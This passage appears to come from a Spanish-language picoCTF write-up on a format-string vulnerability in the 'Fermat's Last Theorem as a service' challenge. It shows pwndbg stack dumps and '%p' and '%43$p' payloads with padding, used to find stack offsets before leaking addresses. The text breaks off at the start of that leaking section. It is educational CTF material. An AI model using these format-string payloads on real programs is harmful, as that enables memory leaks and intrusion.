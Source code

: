 ```gdb-pwndbg
19:00c8│-268 0x7fffffffdb48 —▸ 0x7ffff7ffdad0 (_rtld_global+2736) —▸ 0x7ffff7fcb000 ◂— 0x3010102464c457f
1a:00d0│-260 0x7fffffffdb50 ◂— 0x187dcd08ca6c
1b:00d8│-258 0x7fffffffdb58 —▸ 0x7ffff7ffe2f0 ◂— 0x0
1c:00e0│-250 0x7fffffffdb60 ◂— 0x187dcd126f7b
1d:00e8│-248 0x7fffffffdb68 ◂— 0x4
1e:00f0│-240 0x7fffffffdb70 ◂— 0x0
... ↓        3 skipped
22:0110│-220 0x7fffffffdb90 —▸ 0x7ffff7fc9228 ◂— add byte ptr ss:[rax], al /* '6' */
23:0118│-218 0x7fffffffdb98 ◂— 0x0
24:0120│-210 0x7fffffffdba0 ◂— '1_ABCDEFG'
25:0128│-208 0x7fffffffdba8 ◂— 0x47 /* 'G' */
26:0130│-200 0x7fffffffdbb0 ◂— '/home/naibu3/hac_path/picoCTF/fell'
27:0138│-1f8 0x7fffffffdbb8 ◂— 'ibu3/hac_path/picoCTF/fell'
28:0140│-1f0 0x7fffffffdbc0 ◂— '_path/picoCTF/fell'
29:0148│-1e8 0x7fffffffdbc8 ◂— 'coCTF/fell'
2a:0150│-1e0 0x7fffffffdbd0 ◂— 0x415f485353006c6c /* 'll' */
2b:0158│-1d8 0x7fffffffdbd8 ◂— 'UTH_SOCKTE'
2c:0160│-1d0 0x7fffffffdbe0 ◂— 0x62696c5f5f004554 /* 'TE' */
```

Vemos que los valores introducidos en *A* empiezan a guardarse en el stack a partir del 10:

```gdb-pwndbg
03:0018│-318 0x7fffffffda98 ◂— 0x100000001
04:0020│-310 0x7fffffffdaa0 ◂— '1_%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.[...]'
```

También vemos que los de *B* se guardan en la posición 33 del stack:

```gdb-pwndbg
24:0120│-210 0x7fffffffdba0 ◂— '1_ABCDEFG'
```

Como el programa "leakea" 9 valores más, debemos tenerlos en cuenta, por lo que la posición de *B* sería la 43. Probemos:

```chall
Welcome to Fermat\'s Last Theorem as a service
A: 1_%42$p
B: 1_ABCDEFG
Calculating for A: 1_0x4645444342415f31 and B: 1_ABCDEFG
```

Vemos que necesitamos un poco de padding, ya que el valor corresponde a `FEDCBA_1`, por lo que podemos tratar de corregirlo:

```chall
Welcome to Fermat\'s Last Theorem as a service
A: 1_%43$p
B: 1_______ABCDEFG
Calculating for A: 1_0x47464544434241 and B: 1_______ABCDEFG
```

## Leakeando direcciones

